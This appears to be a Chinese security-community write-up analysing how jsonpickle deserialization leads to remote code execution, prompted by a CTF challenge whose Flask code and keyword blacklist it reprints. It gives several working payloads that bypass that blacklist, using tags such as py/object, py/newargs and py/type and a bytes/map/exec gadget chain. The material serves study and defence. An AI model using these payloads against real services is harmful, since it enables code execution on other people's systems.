# JsonPickle调试分析原理及WAF绕过-先知社区

> **来源**: https://xz.aliyun.com/news/16098  
> **文章ID**: 16098

---

## JsonPickle调试分析原理及WAF绕过

起因是强网杯S8决赛的JsonPickle漏洞，赛后详细分析调试了一下源码，发现还是有很多可以利用的地方

```
from flask import Flask, request, render_template, redirect
from dataclasses import dataclass
from time import time
import jsonpickle
import base64
import json
import os
@dataclass
class User:
    username: str
    password: str
@dataclass
class Token:
    username: str
    timestamp: int

app = Flask(__name__)
users = [User('admin', os.urandom(32).hex()), User('guest', 'guest')]
BLACKLIST = [
    'repr','state','json','reduce','tuple','nt','\\\\','builtins','os','popen','exec','eval','posix', 'spawn','compile','code']
def waf(jtoken): 
    otoken = json.loads(jtoken)
    token = json.dumps(otoken, ensure_ascii=False)
    for keyword in BLACKLIST: 
        if keyword in token: 
            return False
        return True
@app.route('/')
def index():
    return render_template('index.html', title='Home')
@app.post('/login')
def login():
    username = request.form.get('username')
    password = request.form.get('password') 
    for user in users: 
        if user.username == username and user.password == password:        
            res = app.make_response('Login successful')            
            token = Token(username, time())        
            res.status_code = 302            
            res.set_cookie('token', base64.urlsafe_b64encode(jsonpickle.encode(token).encode()).decode())        
            res.headers['Location'] = '/home' 
            return res    
        return 'Invalid credentials(guest/guest)'
@app.route('/home')
def home():
    token = request.cookies.get('token') 
    if token:     
        jtoken = base64.urlsafe_b64decode(token.encode()).decode()
        if not waf(jtoken):        
            return 'Invalid token'        
        token = jsonpickle.decode(jtoken, safe=True)
        if time() - token.timestamp < 60:        
            if token.username != 'admin':            
                return f'Welcome {token.username}, but you are not admin'        
            return 'Welcome admin, there is something in /s3Cr3T'
        return 'Invalid token'
@app.route('/s3Cr3T')
def secret():
    token = request.cookies.get('token') 
    if token:     
        jtoken = base64.urlsafe_b64decode(token.encode()).decode()
        if not waf(jtoken):        
            return 'Invalid token'        
        token = jsonpickle.decode(jtoken, safe=True)
        if time() - token.timestamp < 60:        
            if token.username != 'admin':            
                return 'Invalid token'        
            return '''if not waf(token): return 'Invalid token'token = jsonpickle.decode(token, safe=True)', 'if time() - token.timestamp < 60: if token.username != 'admin': ", " return f'Welcome {token.username}, but you are not admin'", " return 'Welcome admin, there is something in /s3Cr3T'", "return 'Invalid token'", "'''.strip()
        return 'Invalid token'

if __name__ == '__main__':
    app.run('0.0.0.0', 5000)

```

先写一个demo如下来进入调试分析

```
import jsonpickle  
class Exp1(object):  
    def __reduce__(self):  
        return (__import__('os').system, ('whoami',))  

a = Exp1()  
s = jsonpickle.encode(a)  
print(s)  
jsonpickle.decode(s)

```

经过调试跟踪进入主要函数`_restore`



这个方法的目的是对传入的对象 `obj` 进行处理，首先判断其类型，如果是特定的类型之一，则会调用一个恢复处理的函数。

### 代码解释：

1. **类型检查：**  
   该方法首先检查 `obj` 是否是以下类型之一：`str`（字符串）、`list`（列表）、`dict`（字典）、`set`（集合）或 `tuple`（元组）。如果 `obj` 不是这些类型中的任何一个，那么将 `restore` 设置为 `_passthrough`，即默认的处理方式。  
   `if not isinstance(obj, (str, list, dict, set, tuple)): restore = _passthrough`
2. **恢复过程：**  
   如果 `obj` 是上述类型之一，那么调用 `self._restore_tags(obj)` 来对该对象进行“恢复”操作。 `_restore_tags()` 可能是一个方法，它会对对象进行特定的处理（具体的恢复方式要看该方法的实现）。  
   `else: restore = self._restore_tags(obj)`
3. **最终调用：**  
   无论是通过 `_passthrough` 还是 `_restore_tags` 处理后的结果，都会被传递给 `restore()` 函数进行最终的处理。  
   `return restore(obj)`

接着跟踪发现`_restore_tags`函数，通过识别标签来返回对应标签的功能  
  
继续跟踪，开始恢复reduce标签  


* 从 `obj` 中获取与 `tags.REDUCE` 相关的数据（可能是一个列表或元组）。
* 对该数据中的每个元素，调用 `self._restore()` 方法进行恢复操作。
* 将所有恢复后的结果收集到一个新的列表 `reduce_val` 中。

继续跟踪function标签，作用也一目了然，



加载类之后便是命令执行



经过调试分析，已经弄清楚了jsonpickle反序列化的总体流程，那么现在是想办法用其他标签绕过WAF

### 绕过reduce标签

我们写一个payload调试一下**object标签**是如何的运作的

```
class Exp2(object):  
    def __init__(self, name, value=0):  

        self.name = name  # 设置实例的名称  
        self.value = value  # 设置实例的值  


a = Exp2()  
s = jsonpickle.encode(a)  
print(s)  
jsonpickle.decode(s)

```

调试发现他居然有**和function一样的加载类的功能**！



那么我们是不是可以从这里入手直接掉用模块函数呢？我们接着看`_restore_object`调用的`_restore_object_instance`

```
def _restore_object_instance(self, obj, cls, class_name=''):  
    # This is a placeholder proxy object which allows child objects to  
    # reference the parent object before it has been instantiated.    proxy = _Proxy()  
    self._mkref(proxy)  

    # An object can install itself as its own factory, so load the factory  
    # after the instance is available for referencing.    factory = self._loadfactory(obj)  

    if has_tag(obj, tags.NEWARGSEX):  
        args, kwargs = obj[tags.NEWARGSEX]  
    else:  
        args = getargs(obj, classes=self._classes)  
        kwargs = {}  
    if args:  
        args = self._restore(args)  
    if kwargs:  
        kwargs = self._restore(kwargs)  

    is_oldstyle = not (isinstance(cls, type) or getattr(cls, '__meta__', None))  
    try:  
        if not is_oldstyle and hasattr(cls, '__new__'):  
            # new style classes  
            if factory:  
                instance = cls.__new__(cls, factory, *args, **kwargs)  
                instance.default_factory = factory  
            else:  
                instance = cls.__new__(cls, *args, **kwargs)  
        else:  
            instance = object.__new__(cls)  
    except TypeError:  # old-style classes  
        is_oldstyle = True  

    if is_oldstyle:  
        try:  
            instance = cls(*args)  
        except TypeError:  # fail gracefully  
            try:  
                instance = make_blank_classic(cls)  
            except Exception:  # fail gracefully  
                self._process_missing(class_name)  
                return self._mkref(obj)  

    proxy.reset(instance)  
    self._swapref(proxy, instance)  

    if isinstance(instance, tuple):  
        return instance  

    instance = self._restore_object_instance_variables(obj, instance)  

    if _safe_hasattr(instance, 'default_factory') and isinstance(  
        instance.default_factory, _Proxy  
    ):  
        instance.default_factory = instance.default_factory.get()  

    return instance

```

而这个类的参数获取也有判断需要**NEWARGSEX标签提供参数**

```
if has_tag(obj, tags.NEWARGSEX):  
        args, kwargs = obj[tags.NEWARGSEX]

```

由于`args, kwargs = obj[tags.NEWARGSEX]`，由于args为一个列表所以要**列表包裹**，又因为要返回俩个值`args, kwargs`，所以**第二个参数要为空**满足条件  
而tuple源码中也是从列表中取值所以whoami也要用**列表包裹**

```
def _restore_tuple(self, obj):  
    return tuple([self._restore(v) for v in obj[tags.TUPLE]])

```

构造payload:`"py/newargsex":["py/set":["whoami"],""]`  
整体payload如下

```
{"py/object":"nt.system","py/newargsex":["py/set":["whoami"],""]}

```

当然如果相加参数需要用**字典包裹**

```
{"py/object":"nt.system","py/newargsex":[{"py/set":["type"],"py/set":["2.py"]},""]}

```

经过调试后面便是system类的创建然后成功执行命令！下面就只需要绕过tuple标签



### tuple标签绕过

源代码中tuple标签如下

```
def _restore_tuple(self, obj):  
    return tuple([self._restore(v) for v in obj[tags.TUPLE]])

```

set标签源码如下

```
def _restore_set(self, obj):  
    return {self._restore(v) for v in obj[tags.SET]}

```

### function标签绕过

* 调试过程中我还发现了**type标签**也可以加载类直接返回

  ```
  def _restore_type(self, obj):  
    typeref = loadclass(obj[tags.TYPE], classes=self._classes)  
    if typeref is None:  
        return obj  
    return typeref

  ```

  也就是说可以这样**绕过function**

  ```
  {"py/reduce": [{"py/type": "nt.system"}, {"py/tuple": ["whoami"]}]}

  ```

### base64和base85

同时我还发现有这样两个标签，本想着可以利用编码来绕过一些waf

```
def _restore_base64(self, obj):  
    return util.b64decode(obj[tags.B64].encode('utf-8'))  

def _restore_base85(self, obj):  
    return util.b85decode(obj[tags.B85].encode('utf-8'))

```

经过调试却发现**base64解码后返回的类型是bytes**



那么在`system`初始化的时候就会报错，所以暂时没找到如何利用（如果有师傅发现可以利用的方法可以继续研究

```
if is_oldstyle:  
    try:  
        instance = cls(*args)  
    except TypeError:  # fail gracefully
    ........

```

## 回眸再看源码细节

### 参数标签绕过

过了几天还是不死心，再度回来翻unpickle的源码发现并不止上面的一些**tag可以绕过参数标签以及RCE还有一个地方**！

在`_restore_object_instance`函数中，之前我们里利用的参数是第一个if也就是`newargsex`tag来给class传参，而我发现还可以利用之后的else里面的**getargs**函数来获取参数



我们跟进这个函数发现还有下面两个标签可以来**获取参数**，这就可以是另一种绕过的途径！

```
tag:  newargs initargs

```



比如这样的payload就可以绕过标签RCE

```
import jsonpickle  

d='{"py/object": "os.system", "py/newargs" : ["whoami"]}'  

d='{"py/object": "os.system", "py/initargs" : ["whoami"]}'  

jsonpickle.decode(d)

```

### 探究新的RCE方式

再翻源码发现其实一共有两个可以RCE的地方，而我们之前分析的是第二处的RCE也就是：

```
instance=cls(*args)

```

现在来看一下第一处的RCE利用:

```
instance = cls.__new__(cls, *args, **kwargs)

```



而要进入二处instance的地方，首先需要**is\_oldstyle为false**



源码处`is_oldstyle`是这样得到的：

```
is_oldstyle = not (isinstance(cls, type) or getattr(cls, '__meta__', None))

```

主要作用是判断一个类 `cls` 是否属于“旧式类”（在 Python 2 中的概念），具体分析如下：

**`isinstance(cls, type)`**

* 判断 `cls` 是否为类型（即类本身）。  
  如果 `cls` 既不是类型，也没有 `__meta__` 属性，则 `is_oldstyle` 为 `True`，认为 `cls` 是旧式类。

**而在 Python 中，所有类的类型都是 `type`（包括新式类**），比如：map，int，dict等等

其次还需要`cls`有`__new__` 方法。

```
hasattr(cls, '__new__')

```


而**在 Python 中，所有类都可以定义 `__new__` 方法**，以下是一些常见的内置类型和对象，它们通常会重载或使用 `__new__` 方法：

* `object`: 所有类的基类，其 `__new__` 方法负责创建一个新实例。
* `type`: 用于创建新的类，其 `__new__` 方法在元类中起作用。
* `int`, `float`, `complex`: 数值类型的类，用于创建数值对象。
* `str`, `bytes`, `bytearray`: 字符串和字节序列类型的类，用于创建字符串或字节序列对象。
* `list`, `tuple`, `set`, `frozenset`, `dict`: 容器类型的类，用于创建相应的容器对象。

比如我们可以用**map类**可以满足条件，又由于**loadclass函数里面通过import一个moudle来找到一个方法**，我们可以这样来引入命令执行函数`builtins.eval`以及一些内置类



用map是因为`map` 是一个可迭代的对象，**它将给定的函数应用到传入的可迭代对象的每一个元素上。**

`map()`函数的基本语法如下：

```
map(function, iterable, ...)

```

* `function`: 一个函数，用于对每个可迭代对象的元素执行操作。
* `iterable`: 一个或多个可迭代对象，可以是列表、元组、集合等。  
  所以map的参数需要用`[]`或者`{}`包裹

但是map中的函数触发是需要被类用才能触发，比如bytes，list类接受迭代器参数初始化的时候

```
import os  
import builtins  

result = (map(os.system, 'echo asd'))  
result1= bytes(map(os.system, ['echo 123']))

```



**bytes在**new**的时候会触发map的实例化**，比如这样就可以触发rce,

```
frozenset.__new__(frozenset, map(eval, ['__import__("os").system("ls")']))
bytes.__new__(bytes, map(eval, ['__import__("os").system("ls")']))
或者
bytes(map.__new__(map, exec, ['print(1111)']))

```

而又因为`bytes(map)`相当于执行`bytes.__new__(map)`然后再执行`bytes.__init__()`所以这两处rce点不管走到哪里，bytes只要初始化都会触发


最终构造payload如下

```
d='{"py/object":"builtins.bytes", "py/newargs":{"py/object": "builtins.map", "py/newargs" : [{"py/function": "builtins.exec"}, ["print(123)"]]}}'
jsonpickle.decode(d)

```
